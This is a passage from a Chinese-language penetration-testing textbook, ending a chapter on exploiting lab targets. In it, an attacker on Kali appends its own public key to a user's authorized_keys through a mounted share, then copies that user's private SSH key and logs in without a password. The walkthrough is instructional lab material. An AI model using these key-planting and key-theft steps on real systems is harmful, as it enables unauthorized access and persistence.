Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
26:c9:b7:94:8e:3e:d5:04:83:48:91:d9:80:ec:3f:39 root@kali
The key's randomart image is:
+--[ RSA 2048]----+
| . o+B .         |
--*snip*--
+-----------------+
```

首先，我们使用`ssh-keygen`在我们的 Kali 机器上生成一个密钥。默认情况下，我们的新公钥会写入*/root/.ssh/id_rsa.pub*，而私钥会写入*/root/.ssh/id_rsa*。我们要将我们的公钥添加到 Ubuntu 上*georgia*的*authorized_keys*文件中。

接下来，让我们将新生成的公钥追加到*georgia*的*authorized_keys*文件中。使用`cat`命令将*/root/.ssh/id_rsa.pub*文件的内容输出，并将其追加到*georgia*的*authorized_keys*文件中。

```
root@kali:~# **cat ~/.ssh/id_rsa.pub >> /tmp/mount/.ssh/authorized_keys**
```

我们现在应该能够以*georgia*身份通过 SSH 连接到 Linux 目标。让我们试试看。

```
root@kali:~# **ssh georgia@192.168.20.11**
georgia@ubuntu:~$
```

这个方法很有效。现在我们可以成功地通过公钥认证与 Linux 目标进行身份验证。

我们也可以通过将*georgia*的密钥复制到 Kali 机器来获得访问权限。为此，我们首先删除我们创建的 SSH 身份。

```
root@kali:/tmp/mount/.ssh# **rm ~/.ssh/id_rsa.pub**
root@kali:/tmp/mount/.ssh# **rm ~/.ssh/id_rsa**
```

现在，我们将*georgia*的私钥（*id_rsa*）和公钥（*id_rsa.pub*）复制到 Kali 上 root 的*.ssh*目录，并使用`ssh-add`命令将身份添加到认证代理中，然后再尝试通过 SSH 连接到 Linux 目标。

```
root@kali:/tmp/mount/.ssh# **cp id_rsa.pub ~/.ssh/id_rsa.pub**
root@kali:/tmp/mount/.ssh# **cp id_rsa ~/.ssh/id_rsa**
root@kali:/tmp/mount/.ssh# **ssh-add**
Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)
root@kali:/tmp/mount/.ssh# **ssh georgia@192.168.20.11**
Linux ubuntu 2.6.27-7-generic #1 SMP Fri Oct 24 06:42:44 UTC 2008 i686
georgia@ubuntu:~$
```

同样，我们通过操控 SSH 密钥成功访问目标。我们从能够读取和写入*georgia*的主目录文件开始。现在我们已经以*georgia*用户的身份获得了 Linux 系统的 shell，而无需密码。

## 总结

在本章中，我们能够将第五章中收集的信息与第六章中发现的漏洞结合起来，利用多个漏洞对 Windows XP 和 Linux 目标进行攻击。我们使用了多种技术，包括攻击配置错误的 Web 服务器、利用后门软件、利用对敏感文件的访问控制不当、利用底层系统的漏洞以及利用第三方软件中的问题。

既然我们已经成功获得了系统的立足点，在下一章中，我们将开始破解我们在系统上找到的密码。
